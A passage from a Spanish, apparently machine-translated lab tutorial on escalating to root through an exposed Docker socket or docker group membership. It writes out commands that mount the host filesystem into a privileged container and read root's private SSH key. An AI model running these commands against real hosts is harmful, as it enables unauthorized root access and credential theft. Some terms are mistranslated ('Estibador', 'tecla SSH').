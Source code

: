 Podemos crear nuestro propio contenedor Docker que mapea el directorio raíz del host (`/`) hacia`/hostsystem`directorio en el contenedor. Con esto, tendremos acceso completo al sistema de host. Por lo tanto, debemos mapear estos directorios en consecuencia y usar el`main_app`Imagen de Docker.

  Estibador

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Ahora, podemos iniciar sesión en el nuevo contenedor de Docker privilegiado con la ID`7ae3bcc818af`y navegar al`/hostsystem`.

  Estibador

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

A partir de ahí, podemos intentar nuevamente tomar la tecla SSH privada e iniciar sesión como root o como cualquier otro usuario en el sistema con una tecla SSH privada en su carpeta.

#### Grupo de acopolador

Para obtener privilegios raíz a través de Docker, el usuario con el que nos inició sesión debe estar en el`docker`grupo. Esto le permite usar y controlar el Docker Daemon.

  Estibador

```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternativamente, Docker puede tener Suid establecido, o estamos en el archivo de sudoers, lo que nos permite ejecutar`docker`como raíz. Las tres opciones nos permiten trabajar con Docker para aumentar nuestros privilegios.

La mayoría de los hosts tienen una conexión a Internet directa porque las imágenes y los contenedores base deben descargarse. Sin embargo, muchos anfitriones pueden desconectarse de Internet por la noche y fuera del horario laboral por razones de seguridad. Sin embargo, si estos hosts se encuentran en una red donde, por ejemplo, un servidor web tiene que pasar, todavía se puede llegar.
